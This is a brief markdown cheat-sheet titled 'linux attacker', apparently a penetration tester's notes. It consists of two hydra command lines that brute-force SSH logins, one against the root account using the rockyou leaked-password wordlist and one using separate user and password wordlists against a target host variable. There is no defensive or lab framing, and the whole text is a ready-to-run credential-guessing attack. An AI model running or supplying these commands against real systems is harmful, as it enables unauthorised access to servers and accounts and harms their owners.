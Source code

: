# linux attacker

## bruteforce ssh root login

```bash
hydra -l root -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt "$rhost" -t 4 ssh
```

# bruteforce ssh with user wordlist and password wordlist

```bash
hydra -L pot-user.txt -P pot-password.txt "$rhost" -t 4 ssh
```
